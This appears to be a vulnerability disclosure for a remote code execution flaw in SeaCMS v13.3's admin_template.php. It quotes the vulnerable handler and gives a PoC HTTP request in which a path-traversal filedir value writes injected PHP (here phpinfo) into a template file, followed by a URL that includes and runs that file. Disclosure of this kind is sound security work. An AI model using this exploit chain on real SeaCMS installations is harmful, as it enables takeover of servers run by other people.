


## admin_template.php RCE

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although admin_template.php imposes certain restrictions on edited file suffixes, an attacker can achieve command execution and gain system privileges by writing to the htm file, combined with file inclusion

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download


You can see the latest version v13.3

### Debugging Analysis and Vulnerability Exploitation

The vulnerable code is located in `0omeqd/admin_template.php`. When the `action=saveCus` parameter is passed, there is no path traversal check, allowing an attacker to write to files such as `0omeqd/templets/admin_template.htm`. This can be done by passing the following parameters:
- `filedir=../uploads/../0omeqd/templets/admin_template.htm`
- `content=<?php phpinfo();?>`

```php
elseif($action=='saveCus')
{
    if($filedir == '')
    {
        ShowMsg('未指定要编辑的文件或文件名不合法', '-1');
        exit();
    }
    if(substr(strtolower($filedir),0,11)!=$dirTemplate){
        ShowMsg("只允许编辑templets目录！","admin_template.php");
        exit;
    }
    $filetype=getfileextend($filedir);
    if ($filetype!="html" && $filetype!="htm" && $filetype!="js" && $filetype!="css" && $filetype!="txt")
    {
        ShowMsg("操作被禁止！","admin_template.php");
        exit;
    }
    $folder=substr($filedir,0,strrpos($filedir,'/'));
    if(!is_dir($folder)){
        ShowMsg("目录不存在！","admin_template.php");
        exit;
    }
    $content = stripslashes($content);
    $content = m_eregi_replace("##textarea","<textarea",$content);
    $content = m_eregi_replace("##/textarea","</textarea",$content);
    $content = m_eregi_replace("##form","<form",$content);
    $content = m_eregi_replace("##/form","</form",$content);
    createTextFile($content,$filedir);
    ShowMsg("操作成功！","admin_template.php?action=custom");
    exit;
}
```

The `filedir` parameter's first 11 characters must be `../templets`; otherwise, the code will exit.  


Next, when the `action=add` parameter is passed, the file `0omeqd/templets/admin_template.htm` will be included, executing the injected PHP code.  

### Attack Process

The following request triggers the vulnerability by performing path traversal and injecting PHP code:

**POC Request:**
```http
POST /0omeqd/admin_template.php?action=saveCus HTTP/1.1
Host: 127.0.0.1:8001
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ag0sdrimqfovaivtekq9e5e1m1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25353

filedir=../templets/../0omeqd/templets/admin_template.htm&content=<?php+phpinfo();?>
```


Then, trigger the file inclusion to execute the PHP code by visiting the following URL:

**POC URL:**
```r
0omeqd/admin_template.php?action=add
```

